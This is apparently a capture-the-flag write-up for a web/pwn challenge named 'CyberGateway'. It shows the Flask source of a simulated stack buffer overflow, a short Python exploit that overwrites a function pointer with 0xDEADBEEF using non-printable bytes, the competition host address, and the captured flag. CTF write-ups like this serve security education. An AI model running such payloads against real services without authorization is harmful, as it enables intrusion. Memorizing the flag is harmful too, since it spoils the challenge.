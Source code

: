 ```yaml
---
tags: 
references:
---
```

# CyberGateway
Solves: 
Tags: #web #pwn #bof
## Description
> Wait, Neo is now is Cyberpunk? Is there a Morpheus as well? And what will he be offering Neo? This world is very 0x41414141.
## Overview
It's a website that simulates the stack.
## Code review
The code is relatively simple. The goal is to make a request that triggers `SECRET_ROUTE`.
```python
import os
from flask import Flask, request, abort
from string import printable

app = Flask(__name__)

FLAG = os.getenv("FLAG", "flag{fake_flag}")

SECRET_ROUTE    = 0xDEADBEEF
CYBER_ROUTE     = 0x41414141

def secret_gateway_route():
    return f"Wake up {FLAG}"

def cyber_gateway_route():
    return f"You take the {hex(CYBER_ROUTE)} route, the story ends. You wake up in your bed and believe whatever you want to believe. You take the {hex(SECRET_ROUTE)} route, you stay in Wonderland. And I show you how deep the rabbit hole goes."

function_map = {
    SECRET_ROUTE: secret_gateway_route,
    CYBER_ROUTE: cyber_gateway_route
}

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return (
            "Welcome to our super secure cyber gateway service!<br>"
            "Send a POST request with data to push onto our stack.<br>"
        )

    elif request.method == "POST":
        user_data = request.get_data()
        if not user_data:
            abort(400, "No input data provided.")

        if b"A" in user_data:
            abort(400, "Hacking detected")

        for char in user_data:
            if chr(char) in printable:
                abort(400, "Invalid gateway request")
        
        stack_size = 32
        fp_size = 4  
        total_size = stack_size + fp_size

        stack_memory = bytearray(total_size)

        stack_memory[stack_size : stack_size + fp_size] = CYBER_ROUTE.to_bytes(4, "little")

        for i, b in enumerate(user_data):
            if i < total_size:
                stack_memory[i] = b
            else:
                break

        fp = int.from_bytes(stack_memory[stack_size : stack_size + fp_size], "little")
        if fp in function_map:
            result = function_map[fp]()
        else:
            result = f"Segfault! Invalid function pointer: {fp}"

        return result

if __name__ == "__main__":
    app.run("0.0.0.0", port=1337, debug=False)

```
## Exploitation

Simple buffer overflow
```python
import requests

host = "8bxwpsoqtqzzerp4.dyn.acsc.land"
port = 443

# Send POST request with non-printable bytes to trigger the secret route
payload = b"\x00"*32 + b"\xef\xbe\xad\xde"

url = f"https://{host}:{port}/"
response = requests.post(url, data=payload, verify=False)

print(response.text)
```

`dach2025{cyber_n3o_w0ke_up_vkpvgqtidj9o01bu}`